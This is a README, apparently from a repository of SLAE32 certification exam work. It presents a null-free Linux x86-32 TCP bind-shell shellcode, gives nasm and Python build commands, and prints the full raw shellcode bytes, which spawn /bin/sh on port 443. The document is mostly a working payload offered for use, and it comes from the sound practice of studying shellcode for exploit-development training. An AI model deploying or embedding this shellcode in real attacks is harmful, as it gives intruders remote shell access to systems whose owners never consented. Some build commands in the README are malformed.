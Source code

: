 # TCP Bindshell (Linux x86-32) - SLAE32 Certification Exam

* Target : `Linux x86-32`
* NULL Free
* TCP Port Editable (Python Script)
* Manual stack manipulation (no push/pop) but size heavy.

Blog post about creation of that Shellcode : https://phrozen.io/docs/linux/slae32/ex1-bindshell/

## Build Shellcode from NASM file

`nasm -f elf32 -o bindshell.nasm`

`ld bindshell.o -o bindshell

## Build Shellcode from Python Builder`

`python3 shellcode_builder.py <port_number>`

## RAW Shellcode (TCP Port = 443)

````
\x89\xe5\x31\xc0\x31\xdb\x31\xd2\x31\xf6\x31\xc9\xb1\x1e\x50\xe2
\xfd\x89\xec\xb3\x01\xc6\x44\x24\xf8\x01\xc6\x44\x24\xf4\x02\x83
\xec\x0c\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x80\xc3\x0d\xc6
\x44\x24\xfc\x04\x83\xec\x04\x89\x64\x24\xfc\xc6\x44\x24\xf8\x02
\xc6\x44\x24\xf4\x01\x89\x74\x24\xf0\x83\xec\x10\x89\xe1\xb0\x66
\xcd\x80\x31\xc0\x80\xeb\x0c\xb0\x01\xb4\xbb\x66\x89\x44\x24\xf2
\xc6\x44\x24\xf0\x02\x31\xc0\xb0\x10\x29\xc4\xc6\x44\x24\xfc\x10
\x89\x64\x24\xf8\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\x31\xc0\xb0
\x66\xcd\x80\x80\xc3\x02\x89\x74\x24\xf8\x83\xec\x08\x89\xe1\xb0
\x66\xcd\x80\xfe\xc3\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\xb0\x66
\xcd\x80\x89\xc3\x31\xc9\x31\xc0\xb0\x3f\xcd\x80\xfe\xc1\x80\xf9
\x02\x7e\xf3\x31\xc0\x31\xdb\x31\xc9\xc7\x44\x24\xf8\x2f\x2f\x73
\x68\xc7\x44\x24\xf4\x2f\x62\x69\x6e\x83\xec\x0c\x89\xe3\x83\xec
\x04\x89\xe2\x89\x5c\x24\xfc\x83\xec\x04\x89\xe1\xb0\x0b\xcd\x80
````
